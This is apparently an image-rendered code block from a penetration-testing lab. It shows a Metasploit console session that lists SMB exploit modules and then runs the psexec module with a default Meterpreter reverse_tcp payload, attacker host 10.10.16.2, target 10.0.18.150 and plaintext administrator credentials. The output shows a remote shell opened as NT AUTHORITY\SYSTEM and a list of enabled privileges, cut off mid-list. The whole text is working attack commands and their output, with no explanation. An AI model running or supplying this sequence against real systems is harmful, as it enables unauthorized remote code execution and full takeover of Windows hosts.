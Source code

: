```
   9   exploit/windows/smb/ms17_010_psexec          2017-03-14       normal     Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   10  exploit/windows/smb/psexec                   1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
   11  exploit/windows/smb/psexec_psh               1999-01-01       manual     No     Microsoft Windows Authenticated Powershell Command Execution
   12  exploit/windows/smb/webexec                  2018-10-24       manual     No     WebExec Authenticated User Code Execution


Interact with a module by name or index, for example use 12 or use exploit/windows/smb/webexec

msf5 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) > set LHOST 10.10.16.2
LHOST => 10.10.16.2
msf5 exploit(windows/smb/psexec) > set LPORT 4444
LPORT => 4444
msf5 exploit(windows/smb/psexec) > set RHOST 10.0.18.150
RHOST => 10.0.18.150
msf5 exploit(windows/smb/psexec) > set SMBUser administrator
SMBUser => administrator
msf5 exploit(windows/smb/psexec) > set SMBPass Admin@123
SMBPass => Admin@123
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] 10.0.18.150:445 - Connecting to the server...
[*] 10.0.18.150:445 - Authenticating to 10.0.18.150:445 as user 'administrator'...
[*] 10.0.18.150:445 - Selecting PowerShell target
[*] 10.0.18.150:445 - Executing the payload...
[+] 10.0.18.150:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 10.0.18.150
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.18.150:49772) at 2022-10-05 21:23:32 +0530

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
```
